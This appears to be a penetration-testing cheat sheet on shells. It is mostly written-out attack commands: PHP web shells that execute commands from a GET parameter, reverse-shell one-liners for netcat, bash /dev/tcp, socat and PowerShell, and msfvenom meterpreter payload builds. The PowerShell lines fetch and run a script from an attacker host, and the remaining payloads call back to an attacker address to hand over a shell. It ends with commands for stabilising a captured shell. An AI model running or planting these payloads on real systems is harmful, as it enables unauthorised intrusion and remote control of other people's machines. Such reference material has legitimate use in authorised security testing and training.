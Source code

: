 # shells

## Web shells

- Simple web shells

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- Infamous pentestmonkey PHP reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- PHP reverse shell (windows also) [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

## Payloads

A list of reverse shell payloads can be found at [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). 
Common payloads include

- Netcat traditional

```
nc ip 4444 -e /bin/bash
```

- Netcat 
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 4444 >/tmp/f
```

- Bash TCP
```shell
#!/bin/bash
bash -i >& /dev/tcp/$me/4444 0>&1
```

- Socat
```shell
# listener
socat TCP-L:4444 FILE:`tty`,raw,echo=0

# victim
socat TCP:me:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- Powershell

```powershell
powershell -c "iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $me -Port 4444"
```

- Powershell (staged)

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$me:8888/Invoke-PowerShellTcp.ps1')
powershell Import-Module ./Invoke-PowerShellTcp.ps1; Invoke-PowershellTcp -Reverse -IPAddress $me -Port 4444
```

- Msfvenom

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$me LPORT=4444 -f elf -o rev
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$me LPORT=4444 -f exe -o rev.exe
```

## Stabilization

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```

depending on Python version available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

